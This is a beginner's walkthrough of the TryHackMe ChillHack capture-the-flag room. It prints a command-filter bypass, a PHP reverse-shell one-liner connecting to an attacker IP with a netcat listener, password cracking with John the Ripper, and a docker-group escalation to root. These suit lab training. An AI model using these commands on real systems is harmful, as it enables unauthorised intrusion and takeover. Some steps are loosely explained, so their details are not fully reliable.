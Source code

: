 
# ChillHack CTF Walkthrough ☃️  
*My learning journey through ChillHack on TryHackMe*  

Hey folks! 👋  
I'm just getting started in the world of cybersecurity and decided to tackle the **ChillHack** room on TryHackMe. This write-up captures my step-by-step adventure — full of confusion, small wins, and a ton of learning along the way!

---

## 🧊 Step 1: FTP Access - Anonymous Allowed?  
So the first hint I found was that anonymous login on FTP was allowed. Boom — I was in! 🔓

There was a note from **Apaar** that said:  
> *"odh told me that there is some filtering on strings being put in the command."*

Hmm... interesting. Sounds like we’ll be playing with **command injection** later on!

---

## 🖥️ Step 2: Command Execution via Web  

I found a juicy-looking URL:  
```
http://chillhack.thm/secret/
```

It turns out there's a form that lets us run commands on the server. But... of course, there's some filtering. No straight-up `cat index.html` for us 😤

### Bypass Time!  
To get around the filter, I tried a trick:  
```
c/at index.html
```
It worked! Filters can’t stop me forever 😎

---

## 🐚 Step 3: Reverse Shell With PHP  

Time to pop a shell! Let's set up a Netcat listener first:  
```
nc -lvnp 7777
```

Then fire off a PHP reverse shell:
```bash
/usr/bin/php -r '$sock=fsockopen("10.8.27.206",7777);exec("sh <&3 >&3 2>&3");'
```

I originally tried without the full path to PHP but got no response. Lesson learned: **use `/usr/bin/php`** — always double-check where binaries live using `which php`.

---

## 🔑 Step 4: Finding Keys & Getting SSH Access  

I stumbled on an **authorized_keys** file for the user Apaar! Huge win.  

Here's what I found (snippet):  
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ...
```

Once we’re in, stabilize that shell so it’s less wonky. Always helps.

---

## 🖼️ Step 5: Steganography & Cracking Passwords  

Downloaded some image files using `wget` and tried out **steghide** to extract hidden goodies.

### Cracked a zip file with John the Ripper:
```bash
zip2john hidden_data.txt > input_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt input_john.txt
```

And the password?  
```
pass1word
```

Very creative 😅

---

## 🧠 Step 6: Base64 Decode Magic  

Found something that looked encoded:  
```bash
echo "aGFzaA==" | base64 -d
```

Turns out the password was:  
```
!d0ntKn0wmYp@ssw0rd
```

---

## 🔍 Step 7: Finding More Users  

Dug through `/etc/passwd` and found additional users. Time to use SSH to login with the creds we’ve gathered.

---

## 🧪 Step 8: Sudo Exploitation - Meet helpline.sh  

Ran `sudo -l` and noticed something interesting. As **Apaar**, I could run a script: `helpline.sh`.

Checked the script...  
And boom 💥 — it passed input directly to bash! Classic **command injection** vulnerability.

```bash
/bin/bash
```

Now I had a proper shell as Apaar and grabbed `user.txt` 🏁

---

## 🐳 Step 9: Docker Privilege Escalation  

Checked the `id` command — turns out the user was in the `docker` group.

I remembered a neat trick from GTFOBins:  
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

That gave me a **root shell**. Just like that. Game over 🎮

---

## 🏁 Final Thoughts  

This box was **super fun** and full of classic techniques:  
- FTP enumeration  
- Command injection  
- Reverse shells  
- Steganography  
- Zip cracking  
- Sudo misconfigurations  
- Docker privilege escalation  

I learned **a lot** doing this — and still have miles to go! 🚀  
If you're also just starting out, I hope this helps you or at least makes you feel a little less lost 😅

---

## 📸 Screenshot Proofs  

I've added a few screenshots (see [screenshots folder](./assets/)) to document my progress if you want to follow along.

---

Thanks for reading — and feel free to reach out if you're on a similar journey! 💻🔐
